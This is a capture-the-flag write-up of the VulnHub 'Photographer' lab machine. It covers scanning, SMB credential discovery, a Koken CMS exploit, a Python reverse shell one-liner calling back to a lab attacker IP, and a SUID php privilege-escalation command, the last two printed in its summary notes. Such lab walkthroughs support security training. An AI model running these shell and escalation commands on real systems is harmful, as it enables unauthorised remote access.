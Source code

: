 ```yaml
---
title: Photographer
categories: [VulnHub]
tags: [CMS, PrivEsc, RFI, SUIDs, SMB, koken_CMS, php]
image:
  path: https://www.infosecarticles.com/content/images/2020/09/port80-1.png
  alt: Photographer Machine 📷
---
```


## **Description ⤵️**


##### 💡 [Photographer : 1](https://vulnhub.com/entry/photographer-1,519/) ⤵️

***This machine was developed to prepare for OSCP. It is boot2root, tested on VirtualBox (but works on VMWare) and has two flags: user.txt and proof.txt.***


### **Let’s find the IP Address first >>**

```bash
IP : 10.0.2.25
```
{: .nolineno}

## Port Scan Results ➡️

![124-1.png](/Vulnhub-Files/img/Photographer/124-1.png)

![124-2.png](/Vulnhub-Files/img/Photographer/124-2.png)

```bash
OPEN PORTS >
80   HTTP
139  SMB
445  SMB
8000 HTTP
```
{: .nolineno}

---

## Web Enumeration ⤵️

![125-1.png](/Vulnhub-Files/img/Photographer/125-1.png)

Lets first do some directory or files bruteforcing through `feroxbuster` Tool →

![127-1.png](/Vulnhub-Files/img/Photographer/127-1.png)

Then I checked port 8000, I found this `koken CMS` page.

![125-2.png](/Vulnhub-Files/img/Photographer/125-2.png)

I searched through public exploit from searchsploit Tool and found this exploit related to `koken CMS`. 

![125-3.png](/Vulnhub-Files/img/Photographer/125-3.png)

Lets check the SMB part as well →

![128-1.png](/Vulnhub-Files/img/Photographer/128-1.png)

![128-2.png](/Vulnhub-Files/img/Photographer/128-2.png)

![128-3.png](/Vulnhub-Files/img/Photographer/128-3.png)

```bash
Lets try these credentials → 
→ agi@photographer.com
→ daisa@photographer.com
→ my babygirl
So the final credentials were → 
ID     : daisa@photographer.com
pass : babygirl
```
{: .nolineno}

I guess I got in successfully !

![128-4.png](/Vulnhub-Files/img/Photographer/128-4.png)

Now after login to koken site Lets do some further reconnaissance from internet →

![125-4.png](/Vulnhub-Files/img/Photographer/125-4.png)

Let is follow the exploit path →

![125-5.png](/Vulnhub-Files/img/Photographer/125-5.png)

![125-6.png](/Vulnhub-Files/img/Photographer/125-6.png)

Got the results my RFI is working fine →

![125-7.png](/Vulnhub-Files/img/Photographer/125-7.png)

Then I executed the python reverse shell code and I got this →

![126-1.png](/Vulnhub-Files/img/Photographer/126-1.png)

![126-2.png](/Vulnhub-Files/img/Photographer/126-2.png)

```bash
user.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

while cheching the SUID file I got this →

![126-3.png](/Vulnhub-Files/img/Photographer/126-3.png)

![126-4.png](/Vulnhub-Files/img/Photographer/126-4.png)

![126-5.png](/Vulnhub-Files/img/Photographer/126-5.png)

![126-6.png](/Vulnhub-Files/img/Photographer/126-6.png)

```bash
proof.txt → d41d8cd98f00b204e9800998ecf8427e
```
{: .nolineno}

<hr>
<br>

# **Summery Notes →**

> 💡
>Koken 0.22.24
>
>daisa@photographer.com
>
>agi@photographer.com
>
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
> 
> `./usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"`
{: .prompt-tip }

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }